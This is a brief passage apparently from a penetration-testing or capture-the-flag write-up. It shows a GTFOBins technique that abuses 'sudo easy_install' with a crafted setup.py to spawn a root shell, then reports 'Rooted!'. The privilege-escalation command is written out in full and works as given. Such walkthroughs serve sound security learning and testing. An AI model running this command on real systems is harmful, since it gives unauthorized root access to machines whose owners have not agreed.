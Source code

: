 GTFOBins has a script for this binary.&#x20;

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```

<figure><img src="../../../.gitbook/assets/image (358).png" alt=""><figcaption></figcaption></figure>

Rooted!
